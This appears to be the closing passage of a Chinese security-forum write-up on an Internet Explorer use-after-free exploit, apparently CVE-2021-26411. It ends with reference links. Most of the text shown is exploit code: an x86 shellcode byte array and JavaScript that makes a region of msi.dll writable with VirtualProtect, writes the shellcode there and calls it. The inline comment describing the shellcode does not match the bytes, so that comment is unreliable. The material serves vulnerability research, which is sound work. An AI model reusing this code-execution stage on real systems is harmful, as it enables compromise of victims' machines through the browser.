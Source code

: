 执行 shellcode

```
          var shellcode = new Uint8Array([ 0xFC, 0x68, 0x6A, 0x0A, 0x38, 0x1E, 0x68, 0x63, 0x89, 0xD1, 0x4F, 0x68, 0x32, 0x74, 0x91, 0x0C,
0x8B, 0xF4, 0x8D, 0x7E, 0xF4, 0x33, 0xDB, 0xB7, 0x04, 0x2B, 0xE3, 0x66, 0xBB, 0x33, 0x32, 0x53,
0x68, 0x75, 0x73, 0x65, 0x72, 0x54, 0x33, 0xD2, 0x64, 0x8B, 0x5A, 0x30, 0x8B, 0x4B, 0x0C, 0x8B,
0x49, 0x1C, 0x8B, 0x09, 0x8B, 0x09, 0x8B, 0x69, 0x08, 0xAD, 0x3D, 0x6A, 0x0A, 0x38, 0x1E, 0x75,
0x05, 0x95, 0xFF, 0x57, 0xF8, 0x95, 0x60, 0x8B, 0x45, 0x3C, 0x8B, 0x4C, 0x05, 0x78, 0x03, 0xCD,
0x8B, 0x59, 0x20, 0x03, 0xDD, 0x33, 0xFF, 0x47, 0x8B, 0x34, 0xBB, 0x03, 0xF5, 0x99, 0x0F, 0xBE,
0x06, 0x3A, 0xC4, 0x74, 0x08, 0xC1, 0xCA, 0x07, 0x03, 0xD0, 0x46, 0xEB, 0xF1, 0x3B, 0x54, 0x24,
0x1C, 0x75, 0xE4, 0x8B, 0x59, 0x24, 0x03, 0xDD, 0x66, 0x8B, 0x3C, 0x7B, 0x8B, 0x59, 0x1C, 0x03,
0xDD, 0x03, 0x2C, 0xBB, 0x95, 0x5F, 0xAB, 0x57, 0x61, 0x3D, 0x6A, 0x0A, 0x38, 0x1E, 0x75, 0xA9,
0x33, 0xDB, 0x53, 0x68, 0x65, 0x64, 0x7E, 0x7E, 0x68, 0x68, 0x61, 0x63, 0x6B, 0x8B, 0xC4, 0x53,
0x50, 0x50, 0x53, 0xFF, 0x57, 0xFC, 0x53, 0xFF, 0x57, 0xF8, 0x0C, 0x0D, 0xCC, 0x04, 0x00, 0x0B,
0x0A, 0x0A, 0xCA, 0x02, 0xAD, 0x0B, 0x0A, 0x0A, 0x0E, 0x0D, 0x00, 0x01, 0x50, 0x00, 0x0A, 0x0B,
0xFF, 0x0E, 0x0C, 0xEA, 0xEA, 0x0A, 0x0B, 0xFF, 0x0E, 0x04, 0xCA, 0x02, 0x0A, 0xEC, 0x0E, 0x0C,
0xDE, 0x0E, 0x04, 0x0B, 0xFF, 0x0E, 0xED, 0x0A, 0x0A, 0x0E, 0x0C, 0xDE, 0xCA, 0x02, 0x0A, 0xEC,
0x0E, 0x0C, 0xDE, 0x0E, 0xEA, 0x0D, 0x0B, 0xFF, 0x0E, 0x32, 0x0B, 0xFF, 0x0E, 0x0A, 0x0E, 0xCA,
0x02 ])
    var msi = call2(LoadLibraryExA, [newStr('msi.dll'), 0, 1]) + 0x5000
    var tmpBuffer = createArrayBuffer(4)
    call2(VirtualProtect, [msi, shellcode.length, 0x4, tmpBuffer])
    writeData(msi, shellcode) // mov eax, 0x1337 ; ret
    call2(VirtualProtect, [msi, shellcode.length, read(tmpBuffer, 32), tmpBuffer])
    var result = call2(msi, [])

```

![](https://bbs.pediy.com/upload/tmp/893960_HDS6REYF2TAP6JT.png)

### 参考链接:

https://enki.co.kr/blog/2021/02/04/ie_0day.html

 

https://ha.cker.in/index.php/Article/17190

 

https://iamelli0t.github.io/2021/03/12/CVE-2021-26411.html

 

https://paper.seebug.org/1579/

[【公告】欢迎大家踊跃尝试高研班 11 月试题，挑战自己的极限！](https://bbs.pediy.com/thread-270220.htm)

最后于 3 小时前 被 AshCrimson 编辑 ，原因：

[#漏洞分析](forum-150-1-153.htm) [#漏洞利用](forum-150-1-154.htm) [#UAF](forum-150-1-158.htm) [#Windows](forum-150-1-160.htm)